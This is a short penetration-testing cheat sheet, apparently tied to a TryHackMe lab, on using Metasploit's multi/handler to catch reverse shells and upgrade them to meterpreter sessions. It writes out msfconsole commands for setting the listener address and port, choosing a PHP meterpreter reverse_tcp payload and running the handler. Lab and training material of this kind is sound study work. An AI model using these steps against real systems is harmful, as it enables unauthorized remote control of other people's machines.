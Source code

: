 # msfhandler

[![metasploitexploitation](../../../../_badges/thmp/metasploitexploitation.svg)](https://tryhackme.com/room/metasploitexploitation)

<div class="row row-cols-md-2"><div>

The msfconsole can be used to catch reverse shells. Some reverse shell may be upgradable to a [meterpreter](../metasploit.md#meterpreter), which is the main goal.

* First, load the exploit, and define LHOST/LPORT 

```ps
$ msfconsole -q
msf6> use multi/handler
msf6 exploit('multi/handler')> setg LHOST tun0
msf6 exploit('multi/handler')> setg LPORT 4444
```

* Select the payload that would be appropriate

```ps
# example
msf6 exploit('multi/handler')> set PAYLOAD php/meterpreter/reverse_tcp
```
</div><div>

* Run the catcher, and wait for incoming connections.

```ps
msf6 exploit('multi/handler') > run
# WAIT
# OK session created
meterpreter> help # see what you can do
```

➡️ Your shell may not be a meterpreter, so you may try to [upgrade it](../metasploit.md#meterpreter).
</div></div>